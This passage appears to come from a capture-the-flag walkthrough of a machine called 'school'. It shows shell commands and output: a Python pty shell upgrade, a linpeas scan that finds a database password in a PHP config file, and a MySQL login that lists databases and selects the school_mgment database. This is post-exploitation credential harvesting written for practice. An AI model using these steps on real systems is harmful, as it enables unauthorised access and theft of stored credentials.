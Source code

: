 `$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`www-data@school:/$` 

Running linpeas, it finds the database password
`╔══════════╣ Searching passwords in config PHP files`
`/var/www/html/management/application/config/database.php:	'password' => '@jCma4s8ZM<?kA',`

Look in that file for the login
	`'hostname' => 'localhost',`
	`'username' => 'school',`
	`'password' => '@jCma4s8ZM<?kA',`
	`'database' => 'school_mgment',`
	`'dbdriver' => 'mysqli',`

Connect to the database
`www-data@school:/tmp$ mysql -u school -p`
`mysql -u school -p`
`Enter password: @jCma4s8ZM<?kA`

`Welcome to the MySQL monitor.  Commands end with ; or \g.`
`Your MySQL connection id is 167`
`Server version: 8.0.32-0ubuntu0.20.04.2 (Ubuntu)`

`Copyright (c) 2000, 2023, Oracle and/or its affiliates.`

`Oracle is a registered trademark of Oracle Corporation and/or its`
`affiliates. Other names may be trademarks of their respective`
`owners.`

`Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.`

`mysql>` 



`mysql> show databases;`
`show databases;`
`+--------------------+`
`| Database           |`
`+--------------------+`
`| information_schema |`
`| mysql              |`
`| performance_schema |`
`| school_mgment      |`
`| sys                |`
`+--------------------+`
`5 rows in set (0.01 sec)`

`mysql> use school_mgment;`
`use school_mgment;`
`Reading table information for completion of table and column names`
`You can turn off this feature to get a quicker startup with -A`

`Database changed`
`mysql>` 

Check which tables have a "password" column
